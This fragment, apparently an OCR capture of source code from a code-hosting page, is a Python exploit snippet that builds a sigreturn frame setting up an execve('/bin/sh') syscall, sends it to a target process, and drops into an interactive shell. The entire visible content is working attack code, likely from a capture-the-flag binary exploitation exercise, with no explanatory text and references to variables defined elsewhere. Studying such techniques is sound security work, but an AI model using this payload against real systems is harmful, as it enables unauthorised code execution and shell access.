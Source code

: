 ```python
frame1=SigreturnFrame()
frame1.rax=59 # execve syscall
frame1.rsi = 0 # argv
frame1.rdx=0 # envp
frame1.rdi=0x404000 # contains string /bin/sh
frame1.rip = 0x40111c
payload += bytes(frame1)
p.send(payload)
sleep(1)
p.send(b'A'*15)
sleep(1)
p.interactive()

```